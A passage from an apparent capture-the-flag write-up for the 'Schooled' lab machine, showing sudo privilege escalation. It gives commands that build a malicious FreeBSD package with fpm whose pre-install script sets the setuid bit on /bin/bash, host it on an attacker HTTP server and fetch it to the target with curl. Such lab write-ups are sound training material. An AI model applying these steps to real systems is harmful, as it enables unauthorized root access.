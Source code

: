 Nice, we can login as jamie, and we can also gran the user flag which is in his home directory.

### Enumeration as "jamie"

One of the first things I normally check is whether or not a user can execute commands as root, so let's go ahead and do that.

```
[jamie@Schooled ~]$ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
[jamie@Schooled ~]$
```

A quick look at GTFOBins and we find the following entry:

> ```
> TF=$(mktemp -d)
> echo 'id' > $TF/x.sh
> fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
> ```
>
> ```
> sudo pkg install -y --no-repo-update ./x-1.0.txz
> ```

### Sudo command privilege escalation

Nice. First, we need to install FPM:

```
sudo gem install fpm
```

Next, we need to create the package:

```
└─$ echo 'chmod u+s /bin/bash' > x.sh
└─$ fpm -n x -s dir -t freebsd -a all --before-install x.sh .
Created package {:path=>"x-1.0.txz"}

```

Host the file on our attacker machine:

```
└─$ sudo python3 -m http.server 80                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [11/Sep/2021 13:16:17] "GET /x-1.0.txz HTTP/1.1" 200 -

^C
```

Download the file from the target machine:

```
[jamie@Schooled ~]$ curl -O http://10.10.19.99/x-1.0.txz                   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  598k  100  598k    0     0  1045k      0 --:--:-- --:--:-- --:--:-- 1043k
[jamie@Schooled ~]# ls -l
total 609
-r--------  1 jamie  jamie      33 Sep 11 13:49 user.txt
-rw-r--r--  1 jamie  jamie  612380 Sep 11 18:16 x-1.0.txz
[jamie@Schooled ~]#
```
